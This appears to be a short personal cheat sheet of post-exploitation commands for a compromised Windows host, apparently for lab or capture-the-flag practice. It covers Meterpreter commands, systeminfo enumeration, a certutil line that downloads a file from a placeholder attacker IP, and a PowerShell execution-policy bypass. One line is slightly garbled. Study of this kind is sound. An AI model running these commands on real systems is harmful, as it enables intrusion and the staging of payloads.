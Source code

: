 # Basics

meterpreter commands

```
getuid
```

```
sysinfo
```

```
shellShell Commands
```

```
dir                         #ls alternative for windows
```

```
dir /R
```

```
systeminfo
```

## file transfer windows

```
certutil -urlcache -f http://<ip>/<filename> <filename to be saved as>
```

how to grep

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

Output

```
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
System Type:               X86-based PC
```

## If u have a meterpreter connection to window

```
load powershell
```

## if a normal shell then&#x20;

```
powershell -p bypass
```

